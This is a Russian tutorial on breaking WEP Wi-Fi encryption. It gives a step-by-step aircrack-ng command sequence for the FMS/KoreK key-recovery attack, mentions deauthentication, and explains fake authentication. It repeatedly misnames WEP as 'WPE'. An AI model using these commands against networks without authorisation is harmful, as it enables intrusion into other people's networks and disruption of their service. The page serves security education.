 ## Введение

Почему же в 2004 году данный протокол признали крайне небезопасным? Все очень просто - многочисленные недостатки шифрования **RC4**, такие как, к примеру, возможность коллизий векторов инициализации.

Очень хорошую работу по атакам на **WPE** можно найти в [данной научной работе](https://www.researchgate.net/figure/Fragmentation-attack-example-with-3-fragments_fig3_250142546).

Так как атак на **WPE** довольно много (и все они требуют неплохого знания криптографии, в чем я, честно, не очень силен), мы разберем лишь две интересные и отчасти связанные атаки - **ФМШ** и **Fake authentication**.

## Атака ФМШ

Данная атака была предложена Скоттом Фларером, Ициком Мантином и Ади Шамиром (от их фамилий и образовали название) в 2001 году. Основная ее мысль заключалась в неслучайности первых байт ключевого потока, что, при получении достаточного количества пакетов и присутствии среди них пакетов со слабым инициализационным вектором позволяло восстановить общий ключ.

> ℹ️ Интересный факт: именно эта атака, по сути, и подтолкнула создание нового стандарта шифрования - **WPA**.

Провести данную атаку можно следующим образом:

`iwconfig` - получаем список интерфейсов.

`sudo systemctl stop NetworkManager` - остановка сервиса, который может помешать работе _aircrack-ng_.

`sudo airmon-ng check kill` - то же, что и выше.

`sudo ip link set wlan0 down` - останавливаем работу адаптера.

`sudo iw wlan0 set monitor control` - переводим адаптер в режим монитора.

`sudo ip link set wlan0 up` - снова включаем адаптер.

`iwconfig` - убеждаемся, что теперь в пункте _Mode_ стоит **Monitor**.

`airodump-ng wlan0` - получаем список BSSID точек, на которые мы можем провести атаку. Также благодаря этой команде можно понять, сколько устройств подключено к ним.

`iwconfig wlan0 channel <CH>` - настраиваемся на нужный канал (доступен в поле _CH_ результата команды выше).

`airodump-ng --bssid <BSSID> -w dump wlan0` - запускаем сбор векторов инициализации.

`aircrack-ng -b 00:01:02:03:04:05 dump*.cap` - пытаемся извлечь ключ из полученных данных.

Продолжением этой атаки стала атака **KoreK** (опять же, названная в честь ее создателя), позволяющая не искать слабые вектора инициализации ценой увеличения их общего количества. Запустить ее можно с помощью добавления к команде выше флага `-K`.

Со временем нашли способ сделать систему неуязвимой к данной атаке, а именно отбрасывать начало ключевого потока. Назвали такую модификацию "**RC4-drop[n]**", где n - количество байт, которое необходимо отбросить.

> ✅ Кстати, для ускорения набора пакетов можно воспользоваться атакой деаутентификации. Однако не стоит перебарщивать - наша задача состоит в том, чтобы получить данные, а не сделать сеть недоступной.

Единственный, но иногда крайне неприятный нюанс данной атаки - необходимость того, чтобы в сети были клиенты, обменивающиеся с точкой доступа данными. Но что делать, если их нет?

## Fake authentication

Стандарт **IEEE 802.11** определяет 2 способа подключения к точке - четырехсторонее рукопожатие (классика) и _Open System authentication_, при котором можно подключиться к точке без знания секретного ключа.

Но что это нам это знание дает? Как ни странно - возможность набирать так нужные для взлома пакеты, ведь теперь мы можем инжектировать пакеты, и точка доступа, так как мы с ней ассоциированы, будет отвечать нам. Сделать это можно с помощью **Fragmentation** или **Chop-Chop** атаки.

Более подробно о том, как это происходит - [здесь](https://www.javatpoint.com/fake-authentication-attack) и [здесь](https://www.aircrack-ng.org/doku.php?id=fake_authentication).